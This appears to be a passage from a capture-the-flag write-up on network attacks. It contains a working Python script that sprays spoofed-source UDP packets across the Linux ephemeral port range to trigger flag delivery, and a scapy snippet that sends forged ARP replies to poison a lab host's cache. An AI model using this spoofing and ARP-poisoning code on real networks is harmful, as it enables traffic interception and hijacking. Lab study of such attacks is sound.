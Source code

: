 ```py udpspoofing4.py

def try_send(start_port, end_port):
    while True:
        for try_port in range(start_port, end_port):
            pkt = IP(src=src_ip, dst=dst_ip)/ \
                  UDP(sport=src_port, dport=try_port)/ \
                  f"FLAG:10.0.0.1:{listen_port}".encode()
            send(pkt, verbose=0)

def recv():
    serv_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    serv_sock.bind((listen_ip, listen_port))
    while True:
        print(serv_sock.recv(1024).decode())
        _exit(0)

# Linux temp port range
start_port = 32768
end_port = 60999
port_interval = 100

threads = []
# for try_port in range(32700, 61000):
st, ed = start_port // port_interval, end_port // port_interval
for i in range(st, ed+1):
    process_bar(st, ed, i); print(f', port {i*port_interval} to {(i+1)*port_interval}', end='')
    thr = Thread(target=try_send, args=[i*100, (i+1)*100])
    thr.start()
    threads.append(thr)
print('\nwait collision...')

recv_thr = Thread(target=recv)
recv_thr.start()
```

The above codes cost about two minute to get the flag.

# ARP

```py arp.py
from scapy.all import *

pkt = Ether(dst='ff:ff:ff:ff:ff:ff') / ARP(pdst='10.0.0.2', psrc='10.0.0.42', hwsrc='42:42:42:42:42:42', op=2)
sendp(pkt, iface='eth0')
```

# Intercept

There is a client(`10.0.0.2`) is sending flag to server(`10.0.0.3`) by TCP.
